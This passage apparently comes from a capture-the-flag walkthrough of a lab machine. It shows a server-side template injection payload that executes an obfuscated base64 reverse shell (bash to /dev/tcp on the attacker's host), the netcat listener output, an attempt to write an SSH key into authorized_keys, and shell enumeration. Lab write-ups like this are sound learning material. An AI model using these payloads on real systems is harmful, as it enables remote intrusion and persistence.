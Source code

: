 I was having issues with typical SSTI RCE payloads, likely due to special characters. As a workaround, I used a base64-encoded string, decoded it, and executed the payload.

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNi85MDA1IDA+JjEK | base64 -d  | bash" ').read() }}
```

This payload resulted in an unconventional shell. The usual methods for shell upgrading failed, followed by a `lesspipe` error.

```bash
> nc -nlvp 9005
listening on [any] 9005 ...
connect to [10.10.14.16] from (UNKNOWN) [10.129.77.232] 42398
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
/usr/local/sbin/lesspipe: 1: dirname: not found
atlas@sandworm:/var/www/html/SSA$ id
id
uid=1000(atlas) gid=1000(atlas) groups=1000(atlas)
```

---
## Privilege Escalation to silentobserver
----

In an attempt to upgrade the shell, I tried to write my SSH key to the `authorized_keys` file in the SSH directory. However, this errored out, stating that its a Read-only file system.

```bash
atlas@sandworm:~/.ssh$ echo 'ssh-rsa AA...' > authorized_keys
bash: authorized_keys: Read-only file system
```

Surprisingly, the absence of the sudo binary on the system, coupled with the read-only file system, indicates that I am within a restricted shell.

```bash
atlas@sandworm:~$ sudo -l
sudo -l
Could not find command-not-found database. Run 'sudo apt update' to populate it.
sudo: command not found
```

Atlas' home directory only contains hidden files, including a `.cargo` and a `.config` directory.

```bash
atlas@sandworm:~$ ls -la
ls -la
total 44
drwxr-xr-x 8 atlas  atlas   4096 Jun  7 13:44 .
drwxr-xr-x 4 nobody nogroup 4096 May  4  2023 ..
lrwxrwxrwx 1 nobody nogroup    9 Nov 22  2022 .bash_history -> /dev/null
-rw-r--r-- 1 atlas  atlas    220 Nov 22  2022 .bash_logout
-rw-r--r-- 1 atlas  atlas   3771 Nov 22  2022 .bashrc
drwxrwxr-x 2 atlas  atlas   4096 Jun  6 08:49 .cache
drwxrwxr-x 3 atlas  atlas   4096 Feb  7  2023 .cargo
drwxrwxr-x 4 atlas  atlas   4096 Jan 15  2023 .config
drwx------ 4 atlas  atlas   4096 Nov 26 20:38 .gnupg
drwxrwxr-x 6 atlas  atlas   4096 Feb  6  2023 .local
-rw-r--r-- 1 atlas  atlas    807 Nov 22  2022 .profile
drwx------ 2 atlas  atlas   4096 Feb  6  2023 .ssh
```

